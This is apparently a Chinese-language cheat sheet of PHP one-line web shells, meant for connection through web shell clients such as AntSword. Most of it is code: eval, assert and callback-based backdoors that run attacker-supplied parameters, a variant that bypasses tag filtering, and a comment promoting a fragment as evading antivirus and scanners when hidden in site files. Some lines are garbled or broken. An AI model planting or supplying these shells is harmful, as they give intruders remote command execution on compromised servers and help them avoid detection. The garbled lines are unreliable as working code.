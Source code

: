 然后蚁剑连接

```
##PHP：
<?php @eval($_POST['r00ts']);?> 
<?php phpinfo();?>
<?php @eval($_POST[cmd]);?>
<?php @eval($_REQUEST[cmd]);?>
<?php assert($_REQUEST[cmd]); ?>
<?php //?cmd=phpinfo() @preg_replace("/abc/e",$_REQUEST['cmd'],"abcd"); ?>
<?php 
//?cmd=phpinfo();
$func =create_function('',$_REQUEST['cmd']);
$func();
?>

<?php
//?func=system&cmd=whoami
$func=$_GET['func'];
$cmd=$_GET['cmd'];
$array[0]=$cmd;
$new_array=array_map($func,$array);
//print_r($new_array);
?>

<?php 
//?cmd=phpinfo()
@call_user_func(assert,$_GET['cmd']);
?>

<?php 
//?cmd=phpinfo()
$cmd=$_GET['cmd'];
$array[0]=$cmd;
call_user_func_array("assert",$array);
?>

<?php 
//?func=system&cmd=whoami
$cmd=$_GET['cmd'];
$array1=array($cmd);
$func =$_GET['func'];
array_filter($array1,$func);
?>

<?php usort($_GET,'asse'.'rt');?> php环境>=<5.6才能用
<?php usort(...$_GET);?>  php环境>=5.6才能用
<?php eval($_POST1);?> 
<?php if(isset($_POST['c'])){eval($_POST['c']);}?> 
<?php system($_REQUEST1);?> 
<?php ($_=@$_GET1).@$_($_POST1)?> 
<?php eval_r($_POST1)?> 
<?php @eval_r($_POST1)?>//容错代码 
<?php assert($_POST1);?>//使用Lanker一句话客户端的专家模式执行相关的PHP语句 
<?$_POST['c']($_POST['cc']);?> 
<?$_POST['c']($_POST['cc'],$_POST['cc'])?> 
<?php @preg_replace("/[email]/e",$_POST['h'],"error");?>/*使用这个后,使用菜刀一句话客户端在配置连接的时候在"配置"一栏输入*/:<O>h=@eval_r($_POST1);</O> 
<?php echo `$_GET['r']` ?> 

<script language="php">@eval_r($_POST[sb])</script> //绕过<?限制的一句话

<?php (])?>   上面这句是防杀防扫的！网上很少人用！可以插在网页任何ASP文件的最底部不会出错，比如 index.asp里面也是可以的！

```